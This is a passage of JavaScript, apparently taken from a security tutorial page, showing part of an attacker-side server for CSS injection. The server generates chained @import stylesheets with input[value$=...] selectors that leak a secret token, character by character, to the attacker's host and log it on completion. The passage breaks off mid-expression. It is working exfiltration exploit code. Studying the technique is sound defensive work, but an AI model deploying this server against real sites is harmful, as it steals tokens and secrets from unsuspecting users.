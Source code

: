 ```
      if (req.query.pre && prefix !== req.query.pre) {
        prefix = req.query.pre

        // If response comes with a post, then we leaked some suffix secre(T)
      } else if (req.query.post && postfix !== req.query.post) {
        postfix = req.query.post
      } else {
        break
      }

      // Always a pre and a post response must arrived before responding the "next" @import (which is waiting for response)
      if (ready == 2) {
        genResponse(pending.shift())
        ready = 0
      } else {
        ready++
        log("\tleak: waiting others...")
      }
      break

    // While waiting for a pre and a post, the next @import is waiting to be responded
    // by a new generated payload with another "pre" and "post"
    case "/next":
      if (ready == 2) {
        genResponse(respose)
        ready = 0
      } else {
        pending.push(response)
        ready++
        log("\tquery: waiting others...")
      }
      break

    // Called when the secret is leaked
    case "/end":
      stop = true
      console.log("[+] END: %s", req.query.token)

    default:
      response.end()
  }
}

const genResponse = (response) => {
  // Verbose output to know what do we know
  console.log("...pre-payoad: " + prefix)
  console.log("...post-payoad: " + postfix)

  // Payload generation, you have an example of what is generated below
  let css =
    "@import url(" +
    HOSTNAME +
    "/next?" +
    Math.random() +
    ");\n" +
    [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, "a", "b", "c", "d", "e", "f"]
      .map(
        (e) =>
          'input[value$="' +
          e +
          postfix +
          '"]{--e' +
```